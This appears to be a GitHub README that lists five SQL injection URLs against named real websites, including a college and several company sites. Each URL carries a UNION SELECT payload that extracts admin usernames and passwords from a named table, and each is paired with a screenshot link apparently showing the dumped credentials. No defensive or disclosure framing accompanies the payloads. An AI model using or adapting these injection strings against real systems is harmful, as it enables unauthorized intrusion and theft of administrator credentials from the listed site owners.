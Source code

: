 # SQLi-site-link-with-screenshot

1.http://math4all.in/news.php?id=-6' Union Select 1,concat(username,0x3d3d,password),3,4,5,6 from admin--+
![1](https://github.com/AfrinShahana/SQLi-site-link-with-screenshot/assets/123531000/75c72f60-022b-45b0-845c-fb1c2cd20e07)


2.http://math4all.in/news.php?id=-6 Union Select 1,concat(username,0x3d3d,password),3,4,5,6 from admin
![2](https://github.com/AfrinShahana/SQLi-site-link-with-screenshot/assets/123531000/fdef826a-b55a-4921-8708-a8c0ab9ab378)


3.http://www.simscollege.ac.in/news.php?id=-54'  Union Select 1,2,3,4,5,6,7,8,9,10,concat(username,0x3d3d,pwd) from tbl_user_access--+
![3](https://github.com/AfrinShahana/SQLi-site-link-with-screenshot/assets/123531000/763ebab7-3b69-4c2c-a1d4-7773924c9c22)


4.http://www.megaplanet.co.th/project-details.php?id=-26  Union Select 1,concat(admin,0x3d3d,password),3,4,5,6,7,8 from administrator--+
![4](https://github.com/AfrinShahana/SQLi-site-link-with-screenshot/assets/123531000/5dd28749-65f9-47f1-9602-04103e9a3084)


5.http://foundationmanpowermanagement.co.in/current-details.php?id=-113'  Union Select 1,concat(admin_userName,0x3d3d,admin_password),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from foundation_adminuser --+
![5](https://github.com/AfrinShahana/SQLi-site-link-with-screenshot/assets/123531000/ee55f0aa-bd16-41ed-a8a4-0c070c10cb8c)

